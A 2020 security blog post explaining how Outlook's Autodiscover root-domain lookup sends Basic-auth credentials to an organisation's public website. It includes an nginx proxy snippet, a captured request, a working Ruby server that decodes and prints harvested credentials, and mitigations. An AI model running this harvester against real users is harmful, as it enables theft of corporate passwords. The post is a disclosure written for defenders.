 ```yaml
---
title: Obtaining Corporate Credentials via the Autodiscover Circus
description: Obtaining Corporate Credentials via the Autodiscover Circus
date: 2020-09-02
social_image: '/media/images/somuchwin.png'
tags: [autodiscover, vulnerabililty]
---
```


# Layout

It's fairly common for an organisation's website to exist outside the organisation's operational security policies. There's a common justification that for many organisations, the website is a marketing landing page and no sensitive data is ever involved. This in turn oftens leads to the prevance of, for example, shared hosting companies holding dozens of compromised Wordpress sites at a time.

We regularly see this when major businesses are compromised. This is unfortunate.

# Autodiscover noise

Anyone who has read the web access log on such a server has probably found themselve Googling what autodiscover.xml is. Here's an example from my own server, of something which may be rare if you have a few users. I grepped an larger organisation's log and found around 1200 hits per day.

```bash
020/09/02 05:54:40 [error] 385#385: *33613 open() "/var/www/html/autodiscover/autodiscover.xml" failed (2: No such file or directory),
    client: 1.2.3.4, server: lolware.net, request: "POST /autodiscover/autodiscover.xml HTTP/1.1", host: "lolware.net"
```
The reason for this is Microsoft's Autodiscover mechanism. And it's worth noting that while I'm going to talk about Outlook, many mail clients support autodiscover with varying rules and process.

Microsoft have a good technical brief here: [https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover](https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover).

As you can see, step six of the discovery processis "check the root domain". And that tends to be a step that's hit before the issue is settled, usually at step 7 or step 9. You can also see described the triggers and schedules for autodiscover.

A more practical, and digestable article for people not often working with Office 365 can be seen here: [https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/](https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/).

I quite like this article as the reference to the web hosting circus will be quite familiar to anyone who has had to support the average shared hosting environment. Those people will be familiar with how common hacked websites are.

# About that hacked webserver

The problem with the autodiscovery situation described is that I can put a redirect in my web server's nginx config:

```bash
        location /autodiscover/autodiscover.xml {
            proxy_set_header X-Forwarded-For $remote_addr;
            proxy_pass http://localhost:8089;
        }
```

And of course similar options exist for Apache. With this in place, here's a dump of a proxied connection:

```bash
[2020-09-02 06:09:09] ERROR `/autodiscover/autodiscover.xml' not found.
127.0.0.1 - - [02/Sep/2020:06:09:09 UTC] "POST /autodiscover/autodiscover.xml HTTP/1.0" 404 299
- -> /autodiscover/autodiscover.xml


POST /autodiscover/autodiscover.xml HTTP/1.0
X-Forwarded-For: 1.2.3.4
Host: localhost:8089
Connection: close
Content-Length: 361
Content-Type: text/xml
User-Agent: Outlook/16.0 (16.0.5023.1000; MSI; x86)
X-MS-WL: Outlook/1.0
X-TransactionID: {BA9B4E4B-B8AD-40F0-893A-6A2059ACE7A6}
Authorization: Basic ZXhhbXBsZXVzZXJAbG9sd2FyZS5uZXQ6aW1hZ2luZWFwYXNzd29yZA==

<?xml version="1.0" encoding="UTF-8"?><Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/mobilesync/requestschema/2006"><Request><EMailAddress>exampleuser@lolware.net</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006</AcceptableResponseSchema></Request></Autodiscover>
```

What's crucial here is that as long as the server doesn't immediately reject the connection with a 404, the connecting client sends a discovery request that *includes an Authorization header*. The below code can take advantage of this:

```ruby
#!/usr/bin/env ruby
# Reference: https://www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/
require 'webrick'
require 'base64'

class Echo < WEBrick::HTTPServlet::AbstractServlet
  def do_POST(request, response)
    auth = request['Authorization']
    m = auth.match(/Basic (.+)/)
    if m
      puts "Credential Dump: " + Base64.decode64(m[1])
    end

    # Present a friendly normal "not here" to the connection
    response.status = 404
  end
end

server = WEBrick::HTTPServer.new(:Port => 8089)
server.mount "/", Echo
trap "INT" do server.shutdown end
server.start



```

# Secure Corporate Assets. Insecure website. User Passwords Dumped Anyway

Now obviously before I wrote this blog, I setup a temporary account and connected Outlook. Running the above code on my server started pumping this sort of content to the console.

```ruby
$ ./webrickprint.rb
[2020-09-02 06:41:19] INFO  WEBrick 1.4.2
[2020-09-02 06:41:19] INFO  ruby 2.6.5 (2019-10-01) [x86_64-linux]
[2020-09-02 06:41:19] INFO  WEBrick::HTTPServer#start: pid=323527 port=8089
Credential Dump: exampleuser@lolware.net:thiscouldbeyourpassword
```

# Mitigations

Microsoft's article discusses the *ExcludeHttpRedirect* registry key, but for most cases it's not a solution as it won't impact mobile users or anyone not using your exact version of Outlook on a corporate device.

The most approachable I've come up with is that a redirect can be put in place upstream if you use a service like Cloudflare. The following page rule takes this URL out of the hands of a web host by redirecting the connection to the correct place.


![Autodiscover rule](/media/images/autodiscoverpagerule.png)

The practical365 site states "the root domain lookup makes absolutely no sense to me" and any attempt to read a discussion on the issue will lead you to plenty of discussion of this as nonsense. Unfortunately for as long as this priority exists, this problem will.

